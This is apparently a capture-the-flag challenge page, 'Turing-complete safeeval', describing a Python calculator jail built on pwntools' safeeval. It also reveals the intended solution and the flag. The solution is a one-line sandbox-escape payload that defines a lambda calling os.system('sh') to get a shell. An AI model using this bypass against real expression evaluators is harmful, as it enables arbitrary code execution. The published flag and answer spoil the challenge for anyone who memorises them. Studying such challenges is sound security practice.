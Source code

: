 # Turing-complete safeeval
## JAIL - Easy
| author | first blood | solves | points |
| --- | --- | --- | --- |
| k3v1n | fredd (thehackerscrew) | 0 | 0 |
### prompt
Hey! We just made a brand new Turing-complete calculator based on a slight modification of `pwnlib.util.safeeval` to allow defining functions, because otherwise it would be Turing-incomplete.

Still we are allowing only pure functions, so there is no security implication right?

Connect via:
`nc safeeval.sdc.tf 1337`

### original specification
Use pwntools's test_expr with the default pwntools _expr_codes list plus MAKE_FUNCTION and CALL_FUNCTION. The exploit is to define a lambda function that runs arbitrary code, like this (pwntools won't recursively check subfunctions):

`(lambda: __import__('os').system('sh'))()`

This is Turing complete because lambda calculus is Turing complete (allow defining functions)

**flag:** `sdctf{u5ing_l4mbDA5_t0_smUgg1e_m4licious_BYTECODEz}`

